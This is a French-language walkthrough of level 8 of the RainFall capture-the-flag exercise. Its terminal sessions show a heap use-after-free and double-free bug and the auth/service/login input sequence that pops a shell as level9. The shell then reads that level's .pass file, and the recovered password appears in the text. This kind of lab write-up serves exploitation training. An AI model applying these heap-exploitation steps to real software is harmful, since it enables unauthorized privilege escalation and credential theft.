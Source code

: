 # Level 8

En executant le binaire on voit que ce dernier lance un boucle infinit, en l'analisant dans cuter on peux voir que ce dernier nous permet d'entrer plusieur commande :
- auth
- service
- login
- reset
On essaie donc d'entrer ces commande dans le terminale. Grace a ca et a cutter on peut voir que le programme incremante deux variable globale (auth et service) via malloc voir commande ci dessous : 
`auth` initialise notre pointeur sur la variable _auth et a chaque fois que nous retapons la commande cette dernier s'incremante de 10.
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a018, (nil) 
auth 
0x804a028, (nil) 
auth 
0x804a038, (nil) 
```
`service` initialise la variable service et ajoute 10 par 10 la valeurs de la variable _service avec un strdup.
```
0x804a038, (nil) 
service 
0x804a038, 0x804a048 
service 
0x804a038, 0x804a058 
service 
0x804a038, 0x804a068 
```
`reset` free _auth mais continue a l'afficher car le pointer ne pas mis a `NULL` il suffit de lancer la commande 2 foi de suite pour voir un double free car ce dernier nest pas proteger.
```
reset
0x804a038, 0x804a068
reset
*** glibc detected *** ./level8: double free or corruption (fasttop): 0x0804a038 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x74f82)[0xb7ea0f82]
./level8[0x8048678]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7e454d3]
./level8[0x80484d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 00:10 12376      /home/user/level8/level8
08049000-0804a000 rwxp 00000000 00:10 12376      /home/user/level8/level8
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e07000-b7e23000 r-xp 00000000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e23000-b7e24000 r-xp 0001b000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e24000-b7e25000 rwxp 0001c000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e2b000-b7e2c000 rwxp 00000000 00:00 0 
b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd2000-b7fd5000 rwxp 00000000 00:00 0 
b7fd8000-b7fdd000 rwxp 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
Aborted (core dumped)
```
et enfin `login` check dans la memoir si _auth + 32 est egale a 0, si ce n'est pas le cas elle printf password: sinon elle lance le /bin/sh du level9
```
login
Password:
0x804a028, (nil) 
```
Il faut donc init la variable `auth` et incrémente le `service` jusqu'a ce qu'il écrive a `auth + 32`.
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```